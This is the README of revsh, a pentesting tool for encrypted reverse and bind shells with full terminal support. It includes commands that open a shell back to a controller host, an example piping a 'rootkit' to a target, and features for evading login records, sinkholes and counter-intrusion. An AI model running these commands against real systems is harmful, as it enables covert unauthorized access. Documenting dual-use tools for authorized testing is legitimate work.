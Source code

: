 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~/devel/code/revsh$ ./revsh -h
	
	usage:  revsh [-c [-a] [-s SHELL] [-d KEYS_DIR] [-f RC_FILE]] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]
	
		-c            Run in controller mode.                        (Default is target mode.)
		-a            Enable Anonymous Diffie-Hellman mode.          (Default is "!ADH:DHE-RSA-AES256-SHA".)
		-s SHELL      Invoke SHELL as the remote shell.              (Default is "/bin/bash".)
		-d KEYS_DIR   Reference the keys in an alternate directory.  (Default is "~/.revsh/keys/".)
		-f RC_FILE    Reference an alternate rc file.                (Default is "~/.revsh/rc".)
		-t SEC        Set the connection timeout to SEC seconds.     (Default is "3600".)
		-r SEC1,SEC2  Set the retry time to be SEC1 seconds, or      (Default is "600,1200".)
		              to be random in the range from SEC1 to SEC2.
		-b            Start in bind shell mode.                      (Default is reverse shell mode.)
		-k            Start the bind shell in keep-alive mode.       (Ignored in reverse shell mode.)
		-n            Netcat style data broker. No tty.              (Default is interactive w/remote tty.)
		              Non-interactive. Useful for copying files.
		-v            Verbose output.
		-h            Print this help.
		ADDRESS:PORT  The address and port of the listening socket.  (Default is "127.0.0.1:9999".)
		
		Notes:
		  * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
		  * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	    * Verbose output may mix with data if -v is used together with -n.
		
		Interactive example:
		  local controller host:  revsh -c 192.168.0.42:443
		  remote target host:     revsh 192.168.0.42:443
		
		Non-interactive example:
		  local controller host:  cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
		  remote target host:     revsh 192.168.0.42:443 > ./totally_not_a_rootkit
		
	
	## Example ##

First, setup the local host to be the control host:

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host:

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner.

Local control host:

	empty@monkey:~$ revsh -c

Remote target host:

	target@kitty:~$ ./revsh


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

